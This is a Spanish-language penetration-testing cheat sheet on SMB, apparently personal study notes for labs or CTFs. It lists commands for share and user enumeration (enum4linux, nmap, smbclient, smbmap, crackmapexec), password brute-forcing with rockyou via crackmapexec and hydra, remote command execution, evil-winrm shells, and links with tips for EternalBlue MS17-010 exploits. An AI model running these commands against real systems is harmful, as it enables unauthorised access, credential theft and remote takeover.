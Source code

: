 [[Apuntes]]

SMB (Server Message Block) es un protocolo cliente-servidor que controla el acceso a archivos y directorios enteros, así como a otros recursos de la red, como impresoras, routers o interfaces comparti

### Comandos básicos

```
dir o ls # para listar directorio actual
get <archivo> # descargarnos en nuestra máquina un archivo
mget <carpeta> # descargarnos la carpeta entera a nuestra máquina un archivo
allinfo <archivo/carpeta> # saber el tamaño,permisos, atributso NTFS etc de dicho archivo/carpeta
```

### Enumerar servicio,info

```
enum4linux <IP> # comanda básica sin credenciales
enum4linux -a [-u "<usuario>" -p "<password>"] <IP> # con credenciales validas
nmap --script "smb-enum-*" -p445 <IP> # enumerar con nmap
nmap --script "vuln and safe" -p445 <IP> # checkear que haya vulns básicas de smb y safe para que no sea muy intrusiva
```

### Enumerar servicios,ficheros, carpetas etc


```
#smbclient
smbclient -L # listar servicios disponibles
smbclient --no-pass -L //<IP> # listar servicios disponibles sin credenciales (null user)
#smbmap
smbmap -H <IP> [-P <PORT>] # sin credenciales (null user)
smbmap -u "ususario" -p "pass" -H <IP> [-P <puerto>] # con credenciales
smbmap -H <IP> -R <share> # listar archivos en esta carpeta
#crackmapexec
crackmapexec smb <IP> -u '' -p '' --shares #sin credenciales (null user)
crackmapexec smb <IP> -u usuario -p pass --shares # con credenciales listar 
crackmapexec smb <IP> -u usuario -p pass --users # listar usuarios
crackmapexec smb <IP> -u usuario -p pass --groups # listar grupos
crackmapexec smb <IP> -u usuario -p pass -x "whoami" # RCE
```

### Fuerza bruta

```
# winrm
crackmapexec winrm <IP victima> -u user -p /usr/share/wordlists/rockyou.txt
# smb
crackmapexec smb <IP victima> -u user -p /usr/share/wordlists/rockyou.txt
# Linux
hydra -l <user> -P /usr/share/wordlists/rockyou.txt smb://<IP victima>
```

### Conectarte al recurso

```
smbclient --no-pass //<IP>/<carpeta> # sin credenciales
smbclient //<IP>/<ruta> -U=user%password # con credenciales
```

### Descargar archivo

```
sudo smbmap -R carpeta -H <IP> -A <archivo> -q # descargar a tu maquina local
```

### Crear servidor smb con python

```
smbserver.py EjemploSmb $(pwd)
```

### Evil-winrm

Si es el caso que con crackmapexec hemos conseguido credenciales del sistema y no esta el RDP abierto, podemos acceder mediante evil-winrm que utiliza el protocolo winrm para acceder al sistema victima y tener una shell

```
evil-winrm -i <IP/Domain> -u <user> -p <password>
```

## Eternalblue ms17-010

Para solucionar el error de impacket a la hora de ejecutar los scripts dejo un link que medio soluciona el problema [https://abhishekgk.medium.com/solution-impacket-error-ms17-010-a7787ebacf84](https://abhishekgk.medium.com/solution-impacket-error-ms17-010-a7787ebacf84)

[GitHub - worawit/MS17-010: MS17-010GitHub](https://github.com/worawit/MS17-010)

Si por ejemplo al hacer el check no sale todos los test en `STATUS_ACCESS_DENIED` prueba de entrar en el script y añadir a `USERNAME = ''` el usuario guest y vuelve a ejecutar.

[GitHub - d4t4s3c/Win7Blue: Scan/Exploit - EternalBlue MS17-010 - Windows 7 32/64 BitsGitHub](https://github.com/d4t4s3c/Win7Blue)